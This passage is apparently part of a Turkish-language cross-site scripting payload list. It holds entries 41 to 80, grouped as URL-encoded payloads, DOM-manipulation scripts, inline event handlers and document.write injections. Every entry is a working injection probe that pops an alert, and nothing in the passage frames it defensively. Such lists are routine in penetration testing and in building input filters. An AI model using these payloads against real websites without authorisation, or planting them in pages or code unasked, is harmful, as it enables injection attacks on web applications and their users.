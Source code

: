 ## Encoded Payload'lar
41. `%3Cscript%3Ealert%281%29%3C%2Fscript%3E`
42. `%3Cimg%20src%3D%22x%22%20onerror%3D%22alert%28%27XSS%27%29%22%3E`
43. `%3Csvg%2Fonload%3Dalert%28%27XSS%27%29%3E`
44. `%3Ciframe%20src%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E%3C%2Fiframe%3E`
45. `%3Cinput%20onfocus%3D%22alert%28%27XSS%27%29%22%3E`
46. `%3Ca%20href%3D%22javascript%3Aalert%28%27XSS%27%29%22%3EClick%20me%3C%2Fa%3E`
47. `%3Cbody%20onload%3D%22alert%28%27XSS%27%29%22%3E`
48. `%3Cform%20action%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E%3Cbutton%3ESubmit%3C%2Fbutton%3E%3C%2Fform%3E`
49. `%3Cdiv%20style%3D%22background-image%3A%20url%28javascript%3Aalert%28%27XSS%27%29%29%22%3E`
50. `%3Cmeta%20http-equiv%3D%22refresh%22%20content%3D%220%3Burl%3Djavascript%3Aalert%28%27XSS%27%29%22%3E`

## DOM Manipülasyonu Payload'ları
51. `<script>document.getElementById('test').innerHTML = '<img src=x onerror=alert(1)>'</script>`
52. `<script>document.body.appendChild(document.createElement('img')).src='x';document.body.appendChild(document.createElement('script')).src='javascript:alert(1)'</script>`
53. `<script>var img = document.createElement('img'); img.src = 'x'; img.onerror = function() { alert(1); }; document.body.appendChild(img);</script>`
54. `<script>var link = document.createElement('a'); link.href = 'javascript:alert(1)'; link.innerText = 'Click me'; document.body.appendChild(link);</script>`
55. `<script>document.body.innerHTML += '<img src=x onerror=alert(1)>'</script>`
56. `<script>document.body.insertAdjacentHTML('beforeend', '<img src=x onerror=alert(1)>')</script>`
57. `<script>document.write('<img src="x" onerror="alert(1)">')</script>`
58. `<script>document.body.insertAdjacentHTML('afterbegin', '<img src=x onerror=alert(1)>')</script>`
59. `<script>var script = document.createElement('script'); script.src = 'javascript:alert(1)'; document.body.appendChild(script);</script>`
60. `<script>document.body.innerHTML = '<a href="javascript:alert(1)">Click me</a>'</script>`

## Inline Event Handlers
61. `<div onclick="alert('XSS')">Click me</div>`
62. `<a href="javascript:void(0)" onclick="alert('XSS')">Click me</a>`
63. `<input type="text" onfocus="alert('XSS')">`
64. `<button onclick="alert('XSS')">Click me</button>`
65. `<select onchange="alert('XSS')"><option value="">Select me</option></select>`
66. `<textarea onfocus="alert('XSS')">Click me</textarea>`
67. `<a href="javascript:alert('XSS')">Click me</a>`
68. `<p onmouseover="alert('XSS')">Hover over me</p>`
69. `<div onmouseover="alert('XSS')">Hover over me</div>`
70. `<form onsubmit="alert('XSS')"><input type="submit"></form>`

## Document Writing Payload'ları
71. `<script>document.write('<img src="x" onerror="alert(1)">')</script>`
72. `<script>document.open();document.write('<img src="x" onerror="alert(1)">');document.close();</script>`
73. `<script>document.body.innerHTML += '<script>alert(1)<\/script>'</script>`
74. `<script>document.body.innerHTML = '<script>alert(1)<\/script>'</script>`
75. `<script>document.body.insertAdjacentHTML('beforeend', '<script>alert(1)<\/script>')</script>`
76. `<script>document.body.innerHTML += '<iframe src="javascript:alert(1)"></iframe>'</script>`
77. `<script>document.body.insertAdjacentHTML('beforeend', '<iframe src="javascript:alert(1)"></iframe>')</script>`
78. `<script>document.body.innerHTML = '<object data="javascript:alert(1)"></object>'</script>`
79. `<script>document.body.insertAdjacentHTML('beforeend', '<object data="javascript:alert(1)"></object>')</script>`
80. `<script>document.body.innerHTML = '<embed src="javascript:alert(1)"></embed>'</script>`
